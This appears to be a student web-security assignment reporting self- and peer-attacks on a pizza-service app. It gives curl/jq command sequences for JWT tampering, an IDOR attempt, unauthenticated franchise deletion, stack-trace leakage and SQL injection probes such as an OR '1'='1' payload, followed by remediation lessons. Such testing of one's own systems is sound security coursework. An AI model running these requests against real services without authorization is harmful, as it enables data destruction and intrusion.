


# Self Attack

## 1. JWT Tampering

| Item           | Result                                                                                   |
| -------------- | ---------------------------------------------------------------------------------------- |
| Date           | April 8, 2026                                                                            |
| Target         | pizza-service.jakenef.click                                                              |
| Classification | Broken Access Control                                                                    |
| Severity       | 0                                                                                        |
| Description    | Tried to tamper JWT token to see if auth was working. It correctly gave me unauthorized. |
| Images         |    No vulnerability found                |
| Corrections    | N/A                                                                                      |

Commands used:

BASE="https://pizza-service.jakenef.click"
EMAIL="jakenef@byu.edu"
PASS="password"

AUTH_JSON=$(curl -sS -X PUT "$BASE/api/auth" \
 -H "Content-Type: application/json" \
 -d "{\"email\":\"$EMAIL\",\"password\":\"$PASS\"}")

echo "$AUTH_JSON"

TOKEN=$(printf '%s' "$AUTH_JSON" | jq -r '.token // empty')
echo "TOKEN=$TOKEN"

IFS='.' read -r H P S <<< "$TOKEN"
P_TAMPERED="${P%?}A"
TAMPERED_TOKEN="$H.$P_TAMPERED.$S"
echo "$TAMPERED_TOKEN"

curl -i -sS "$BASE/api/user/me" \
 -H "Authorization: Bearer $TAMPERED_TOKEN"

## 2. Try To Access User B Resources As User A

| Item           | Result                                                                                    |
| -------------- | ----------------------------------------------------------------------------------------- |
| Date           | April 8, 2026                                                                             |
| Target         | pizza-service.jakenef.click                                                               |
| Classification | Broken Access Control                                                                     |
| Severity       | 0                                                                                         |
| Description    | Tried to tamper user B name while logged in as user A. It correctly gave me unauthorized. |
| Evidence       |    No vulnerability found                           |
| Corrections    | N/A                                                                                       |

Commands To Use:

unset BASE TS EMAIL_A EMAIL_B PASS AUTH_A AUTH_B TOKEN_A TOKEN_B USER_A_ID USER_B_ID
setopt NO_BANG_HIST

Set variables with no risky characters

BASE=https://pizza-service.saamn.dev
TS=$(date +%s)
EMAIL_A=idor_a_${TS}@byu.edu
EMAIL*B=idor_b*${TS}@byu.edu
PASS='Passw0rd123'
printf 'BASE=%s\nA=%s\nB=%s\nPASS=%q\n' "$BASE" "$EMAIL_A" "$EMAIL_B" "$PASS"

Create both users using jq-built JSON

curl -sS -X POST "$BASE/api/auth" \
  -H 'Content-Type: application/json' \
  --data-binary "$(jq -nc --arg n 'IDOR A' --arg e "$EMAIL_A" --arg p "$PASS" '{name:$n,email:$e,password:$p}')" | jq

curl -sS -X POST "$BASE/api/auth" \
  -H 'Content-Type: application/json' \
  --data-binary "$(jq -nc --arg n 'IDOR B' --arg e "$EMAIL_B" --arg p "$PASS" '{name:$n,email:$e,password:$p}')" | jq

Login both and extract ids/tokens

AUTH_A=$(curl -sS -X PUT "$BASE/api/auth" \
 -H 'Content-Type: application/json' \
 --data-binary "$(jq -nc --arg e "$EMAIL_A" --arg p "$PASS" '{email:$e,password:$p}')")

AUTH_B=$(curl -sS -X PUT "$BASE/api/auth" \
 -H 'Content-Type: application/json' \
 --data-binary "$(jq -nc --arg e "$EMAIL_B" --arg p "$PASS" '{email:$e,password:$p}')")

TOKEN_A=$(printf '%s' "$AUTH_A" | jq -r '.token')
TOKEN_B=$(printf '%s' "$AUTH_B" | jq -r '.token')
USER_A_ID=$(printf '%s' "$AUTH_A" | jq -r '.user.id')
USER_B_ID=$(printf '%s' "$AUTH_B" | jq -r '.user.id')

printf 'A id=%s\nB id=%s\n' "$USER_A_ID" "$USER_B_ID"

Run the IDOR attempt

curl -i -sS -X PUT "$BASE/api/user/$USER_B_ID" \
 -H 'Content-Type: application/json' \
 -H "Authorization: Bearer $TOKEN_A" \
 --data-binary '{"name":"HACKED_BY_A"}'

## 3. Unauthorized Franchise Deletion

| Item           | Result                                                                                             |
| -------------- | -------------------------------------------------------------------------------------------------- |
| Date           | April 8, 2026                                                                                      |
| Target         | pizza-service.jakenef.click                                                                        |
| Classification | Broken Access Control                                                                              |
| Severity       | 3                                                                                                  |
| Description    | Assessed my code and tried to delete a franchise without any authorization. Attack was successful. |
| Evidence       |    Franchise gone.                                 |
| Corrections    | Add authentication middleware to franchise deletion                                                |

Commands to run:

Pick a target franchise id

BASE="https://pizza-service.saamn.dev"
curl -sS "$BASE/api/franchise?page=0&limit=20" | jq

Save one id from the output

FRANCHISE_ID=1

Send delete request with no auth header

curl -i -sS -X DELETE "$BASE/api/franchise/$FRANCHISE_ID"

Verify result

curl -sS "$BASE/api/franchise?page=0&limit=20" | jq

## 4. Exposed Implementation Details

| Item           | Result                                                                            |
| -------------- | --------------------------------------------------------------------------------- |
| Date           | April 8, 2026                                                                     |
| Target         | pizza-service.jakenef.click                                                       |
| Classification | Security Misconfiguration                                                         |
| Severity       | 1                                                                                 |
| Description    | Able to see internal implementation on any general error stack from any endpoint. |
| Evidence       |    Leaked stack trace of all internals        |
| Corrections    | Make generalized errors instead of implementation specific ones                   |

Commands to run:

Trigger parser error with malformed JSON (no auth needed)

curl -i -sS -X POST "$BASE/api/auth" \
 -H "Content-Type: application/json" \
 --data-binary '{"email":"x@x.com","password":"x"'

Observe leaked stack in response body

## 5. SQL Injection Error

| Item           | Result                                                                                                                      |
| -------------- | --------------------------------------------------------------------------------------------------------------------------- |
| Date           | April 8, 2026                                                                                                               |
| Target         | pizza-service.jakenef.click                                                                                                 |
| Classification | Injection                                                                                                                   |
| Severity       | 2                                                                                                                           |
| Description    | Sent a single-quote payload in the user name field. The backend concatenated the value into SQL, causing a SQL syntax error |
| Evidence       |    SQL Error                                                                        |
| Corrections    | Make generalized errors instead of implementation specific ones                                                             |

Commands to run:

Set up a test user
BASE="https://pizza-service.jakenef.click"
TS=$(date +%s)
EMAIL="sqli_${TS}@byu.edu"
PASS="Passw0rd123"

Register and log in

BASE="https://pizza-service.jakenef.click"
TS=$(date +%s)
EMAIL="sqli_${TS}@byu.edu"
PASS="Passw0rd123"

REG=$(curl -sS -X POST "$BASE/api/auth" \
 -H "Content-Type: application/json" \
 --data-binary "$(jq -nc --arg n 'SQLI Test' --arg e "$EMAIL" --arg p "$PASS" '{name:$n,email:$e,password:$p}')")

TOKEN=$(printf '%s' "$REG" | jq -r '.token')
USER_ID=$(printf '%s' "$REG" | jq -r '.user.id')

Try normal update

curl -i -sS -X PUT "$BASE/api/user/$USER_ID" \
 -H "Content-Type: application/json" \
 -H "Authorization: Bearer $TOKEN" \
  --data-binary "$(jq -nc --arg n 'Normal Name' --arg e "$EMAIL" --arg p "$PASS" '{name:$n,email:$e,password:$p}')"

If this returns 200, your token and route are working.

Injection test: send a quote in the name field

curl -i -sS -X PUT "$BASE/api/user/$USER_ID" \
 -H "Content-Type: application/json" \
 -H "Authorization: Bearer $TOKEN" \
  --data-binary "$(jq -nc --arg n "x'" --arg e "$EMAIL" --arg p "$PASS" '{name:$n,email:$e,password:$p}')"

What you are trying to provoke:

A 500 response
An SQL syntax error in the response
A stack trace showing database internals
If you want a stronger proof, try a more hostile quote payload
curl -i -sS -X PUT "$BASE/api/user/$USER_ID"
-H "Content-Type: application/json"
-H "Authorization: Bearer $TOKEN"
--data-binary '{"name":"x''' OR '''1'''='''1"}'

If the app is vulnerable, it may still throw a SQL error or behave unexpectedly. In your codebase, the first quote test is already enough to prove the injection surface because it should break the SQL statement.

Verify what happened
curl -i -sS "$BASE/api/user/me"
-H "Authorization: Bearer $TOKEN"

If the update succeeded unexpectedly or the response leaked SQL syntax details, that is a valid attack finding.

# Peer Attack (Jake attack Saam)

## 1. JWT Tampering

| Item           | Result                                                                                   |
| -------------- | ---------------------------------------------------------------------------------------- |
| Date           | April 9, 2026                                                                            |
| Target         | pizza-service.saamn.dev                                                                  |
| Classification | Broken Access Control                                                                    |
| Severity       | 0                                                                                        |
| Description    | Tried to tamper JWT token to see if auth was working. It correctly gave me unauthorized. |
| Corrections    | N/A                                                                                      |

## 2. Try To Access User B Resources As User A

| Item           | Result                                                                                    |
| -------------- | ----------------------------------------------------------------------------------------- |
| Date           | April 9, 2026                                                                             |
| Target         | pizza-service.saamn.dev                                                                   |
| Classification | Broken Access Control                                                                     |
| Severity       | 0                                                                                         |
| Description    | Tried to tamper user B name while logged in as user A. It correctly gave me unauthorized. |
| Evidence       |   No vulnerability found                                                              |
| Corrections    | N/A                                                                                       |

## 3. Unauthorized Franchise Deletion

| Item           | Result                                                                                                             |
| -------------- | ------------------------------------------------------------------------------------------------------------------ |
| Date           | April 9, 2026                                                                                                      |
| Target         | pizza-service.saamn.dev                                                                                            |
| Classification | Broken Access Control                                                                                              |
| Severity       | 3                                                                                                                  |
| Description    | Knew this one failed on my code so I tried to delete a franchise without any authorization. Attack was successful. |
| Evidence       |    Franchise gone.                                                 |
| Corrections    | Add authentication middleware to franchise deletion                                                                |

## 4. Exposed Implementation Details

| Item           | Result                                                                            |
| -------------- | --------------------------------------------------------------------------------- |
| Date           | April 9, 2026                                                                     |
| Target         | pizza-service.saamn.dev                                                           |
| Classification | Security Misconfiguration                                                         |
| Severity       | 1                                                                                 |
| Description    | Able to see internal implementation on any general error stack from any endpoint. |
| Evidence       |    Leaked stack trace of all internals        |
| Corrections    | Make generalized errors instead of implementation specific ones                   |

## 5. SQL Injection Error

| Item           | Result                                                                                                                      |
| -------------- | --------------------------------------------------------------------------------------------------------------------------- |
| Date           | April 9, 2026                                                                                                               |
| Target         | pizza-service.saamn.dev                                                                                                     |
| Classification | Injection                                                                                                                   |
| Severity       | 2                                                                                                                           |
| Description    | Sent a single-quote payload in the user name field. The backend concatenated the value into SQL, causing a SQL syntax error |
| Evidence       |    SQL Error                                                                        |
| Corrections    | Make generalized errors instead of implementation specific ones                                                             |

## Combined Summary of Learnings

Across both self and peer testing, authentication checks for JWT tampering and user-to-user profile updates held up as expected, which is a positive baseline for identity controls. The most important weaknesses were authorization gaps on destructive endpoints, unsafe error handling, and SQL query construction that accepted untrusted input.

Primary learnings:

- Authentication alone is not enough. Every sensitive route still needs explicit authorization checks tied to role/ownership.
- Destructive operations must default to deny. The franchise deletion issue shows that one missing middleware check can cause high-impact data loss.
- Error responses should be sanitized. Returning stack traces and SQL errors leaks internals that make follow-up attacks easier.
- Database access must be parameterized. String-concatenated SQL created an injection surface from a simple single-quote payload.
- Repeatable attack scripts improve confidence. Using reproducible curl/jq flows made it easy to validate findings and compare behavior across targets.

Remediation priority (highest to lowest):

1. Enforce authz middleware on all mutating/destructive endpoints (especially DELETE).
2. Replace dynamic SQL concatenation with parameterized queries everywhere.
3. Centralize production-safe error handling (generic client message, detailed server logs only).
4. Add regression tests for unauthorized delete, injection payload handling, and stack-trace suppression.

Overall takeaway: core token validation worked, but defense-in-depth failed at authorization boundaries, query safety, and error hygiene. Closing those three areas will remove the current critical attack paths.
